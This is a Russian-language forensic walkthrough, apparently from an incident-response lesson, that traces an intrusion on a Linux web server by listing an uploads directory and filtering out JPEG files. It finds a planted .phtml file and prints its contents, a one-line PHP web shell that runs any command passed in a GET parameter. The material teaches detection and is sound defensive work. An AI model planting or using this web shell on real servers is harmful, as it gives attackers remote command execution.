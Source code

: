 Из структуры каталогов следует, что /uploads каталог будет содержать то, что мы ищем. Давайте перечислим файлы в 
каталоге uploads: 

Список загруженных файлов
```commandline
investigator@MACHINE_IP:~$ ls -al /var/www/html/uploads
total 224
drwxr-xr-x 2 www-data www-data 4096 Feb 13 00:31 .
drwxr-xr-x 4 root     root     4096 Feb 12 23:05 ..
-rw-r--r-- 1 www-data www-data 1908 Feb 12 16:59 ABHz3aj.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12 16:59 AhVpDoS.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12 17:00 AqLnBvC.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12 17:00 AsDfGhJ.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12 17:00 AzSxWqE.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12 17:00 BcFvGtR.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12 17:00 BcNmLoP.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12 16:59 CoSaBmQ.jpeg
...
```

При изучении каталога /uploads становится очевидным, что в нем присутствует множество файлов с, казалось бы, 
случайными именами, включая изображения JPEG. Кроме того, обратите внимание, что все эти файлы принадлежат 
пользователю www-data. Чтобы сосредоточиться на потенциальных файлах, не являющихся изображениями, мы можем 
использовать grep команду для фильтрации файлов JPEG: 

Фильтрация загруженных файлов
```commandline
investigator@MACHINE_IP:~$ ls -al /var/www/html/uploads | grep -v ".jpeg"
total 224
drwxr-xr-x 2 www-data www-data 4096 Feb 13 00:31 .
drwxr-xr-x 4 root     root     4096 Feb 12 23:05 ..
-rw-r--r-- 1 www-data www-data   30 Feb 13 00:31 b2c8e1f5.phtml
```

Опция -vв команде grep отменяет шаблон, отображая файлы, не имеющие расширения ".jpeg". Это позволяет нам 
идентифицировать и расставлять приоритеты для файлов с другими расширениями, такими как PHP, которые могут 
потребовать дальнейшего изучения.  

Просмотр содержимого этого интересного .phtml файла позволяет предположить наличие вредоносного веб-шелла (файла на 
веб-сервере, который позволяет выполнять системные команды), что подтверждает наши предположения: 

Просмотр подозрительной веб-оболочки
```commandline
investigator@MACHINE_IP:~$ cat /var/www/html/uploads/b2c8e1f5.phtml 
<?php system($_GET['cmd']);?>
```

Из вышеприведенного анализа следует, что злоумышленник загрузил .phtmlдокумент для выполнения PHP- кода на сервере. 
Из-за небезопасного system()вызова в PHP- коде этот файл позволяет выполнять произвольные команды в системе удаленно.
Злоумышленник, вероятно, воспользовался этим, чтобы установить более стабильное соединение между веб-сервером и 
своей системой.   
